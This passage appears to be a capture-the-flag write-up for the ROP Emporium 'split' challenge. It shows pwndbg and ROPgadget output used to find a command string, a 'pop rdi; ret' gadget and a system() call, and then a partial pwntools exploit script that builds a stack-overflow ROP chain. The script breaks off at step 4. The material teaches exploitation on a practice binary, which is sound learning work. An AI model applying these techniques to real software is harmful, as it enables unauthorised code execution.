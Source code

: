 We want `/bin/cat`. So lets search for it but first you need to do this in resumed program.

```bash
pwndbg> search /bin/cat
search: The program is not being run.
pwndbg> r
Starting program: /mnt/c/Users/At0m/Temp/rop/rop_emporium_all_challenges/split/split
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> ^C
Program received signal SIGINT, Interrupt.
<SNIP>
pwndbg> search /bin/cat
Searching for byte: b'/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

To link this to our system call we need to put string into `rdi` so we can find for it.

```bash
$ ROPgadget --binary split | grep "pop rdi ; ret"  
0x00000000004007c3 : pop rdi ; ret
```

We also need address of `call <system@plt>`:

```bash
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret
```

which is `0x000000000040074b` and lastly find offset.

```python
from pwn import *

# --------------------------------------------------
# Step 1: Create padding to overflow the buffer
# The buffer overflows after 40 bytes (found using cyclic analysis)
padding = cyclic(40)

# --------------------------------------------------
# Step 2: Address of 'pop rdi; ret' gadget
# This is needed to control the first argument to 'system()' on x86_64.
# In x86_64, arguments are passed via registers: rdi, rsi, rdx, etc.
# We use this gadget to put the address of "/bin/cat flag.txt" into rdi.
poprdi_addr = p64(0x00000000004007c3)

# --------------------------------------------------
# Step 3: Address of the string "/bin/cat flag.txt"
# This string is already present in the .data section of the binary.
# We’ll use this as the argument to system().
bincat_addr = p64(0x601060)

# --------------------------------------------------
# Step 4: Address of the 'system()' function
# Calling system("/bin/cat flag.txt") will print the contents of flag.txt
```